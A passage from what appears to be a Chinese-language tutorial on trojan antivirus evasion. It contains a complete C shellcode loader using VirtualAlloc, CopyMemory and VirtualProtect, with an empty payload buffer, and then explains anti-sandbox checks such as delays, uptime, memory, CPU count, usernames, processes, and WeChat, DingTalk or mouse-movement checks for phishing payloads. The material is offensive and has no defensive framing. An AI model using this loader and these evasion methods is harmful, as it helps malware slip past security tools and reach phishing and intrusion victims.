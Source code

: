 - **lpAddress：指向要变更保护属性的地址起始位置**
- **dwSize：要更改其访问保护属性的区域的大小**
- **flNewProtect：更改的内存属性**
- **lpflOldProtect：内存原始属性保存地址**

**代码如下：**

```php
#include <Windows.h>

int main() {
    int shellcode_size = 0; // shellcode长度
    BOOL pt;
    DWORD oldProtect;
    unsigned char buf[] = {  };
    shellcode_size = sizeof(buf);
    LPVOID shellcode;
    shellcode = VirtualAlloc(NULL, shellcode_size, MEM_COMMIT, 0x04);
    CopyMemory(shellcode, buf, shellcode_size);
    pt = VirtualProtect(shellcode, shellcode_size, 0x20, &oldProtect);
    ((void(*)())shellcode)();
}
```

由于篇幅有限,APC注入等涉及到windows异常处理机制,这里暂不介绍,有兴趣可以自行了解

### 3.反沙箱

反沙箱是木马免杀中极为重要的一环

为什么这么说呢?

**所有的杀软本地都会有一个内置的沙箱,当我们想要运行一个陌生的exe时,都会在沙箱中模拟运行,所有木马能否上线的关键点在于反沙箱**

##### 那么沙箱查杀的是什么呢?

1.静态查杀

如何处理?

做好 源代码的混淆 资源文件 动态解析API

2.动态查杀

当你的exe在运行是**修改注册表实现自启动**或者是**释放某些文件**亦或是**添加用户** ,此时沙箱会检测此类操作,

**然后报读**

##### 我们要写反沙箱首先要了解沙箱的特性是什么:

沙箱不是真实的环境,而是被虚拟话出来的

1.常规的反沙箱

我们可以通过延迟执行、开机时间、物理内存、CPU核心数，文件名、磁盘大小、500M内存0填充、用户名、进程名去判断是否是在沙箱的环境中,如果是在沙箱的环境,那就退出

2.钓鱼的如何写反沙箱

或者是检测当前环境是否有微信、钉钉、或者鼠标是否移动来判断
